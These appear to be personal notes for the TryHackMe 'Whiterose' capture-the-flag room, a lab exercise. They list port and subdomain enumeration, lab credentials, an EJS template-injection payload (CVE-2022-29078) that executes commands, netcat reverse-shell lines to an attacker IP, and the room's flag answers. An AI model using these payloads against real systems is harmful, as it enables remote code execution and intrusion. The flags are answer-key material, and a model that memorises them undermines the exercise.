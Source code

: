 #CTF #Easy 

https://tryhackme.com/room/whiterose

This challenge is based on the Mr. Robot episode "409 Conflict". Contains spoilers!

```
Olivia Cortez:olivi8

10.10.211.101

# nmap

22/tcp open  ssh
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)

80/tcp open  http
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:6D:51:AA:74:D1 (Unknown)



# gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -t64 --no-error | lolcat

nothing



nano /etc/hosts
10.10.211.101 http://cyprusbank.thm/

source code
https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css

bootstrap 5.3.0 = no vulns


# ffuf 
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.cyprusbank.thm/" -u http://$ip -fs 57

www
admin

/etc/hosts
admin.cyprusbank.thm

login page
Olivia Cortez :olivi8

/settings = permission denied

http://admin.cyprusbank.thm/messages/?c=5
Mrs.Jacobs
Gregor Ivayla
Jemmy Laurel

messages/?c=8
admin
Gayle Bev: Of course! My password is 'p~]P@5!6;rs558:q'

login as Gayle

Tyrell Wellick 	$20.855.900.000 	842-029-5701


http://admin.cyprusbank.thm/settings

# burpsuite 

name=test

response error
/home/web/web/app/views/settings.ejs:14 

CVE-2022-29078
https://security.snyk.io/vuln/SNYK-JS-EJS-2803307



&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami')

nc -nlvp 4444

nc -e sh 10.10.32.236 1337

&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('busybox nc 10.10.32.236 4444 -e /bin/bash');










```





```
What's Tyrell Wellick's phone number?

842-029-5701

Take things a step further and compromise the machine.
What is the user.txt flag?

THM{4lways_upd4te_uR_d3p3nd3nc!3s}

What is the root.txt flag?

THM{4nd_uR_p4ck4g3s}
```


command worked for rev shell + flags  (redo room)
https://medium.com/@alexmiminas/thm-whiterose-write-up-fbe6a2bf70af


not very helpful
https://medium.com/@athu.patil03/tryhackme-whiterose-writeup-604a58289c6e


https://www.youtube.com/watch?v=-FV8IXKGt-A

























































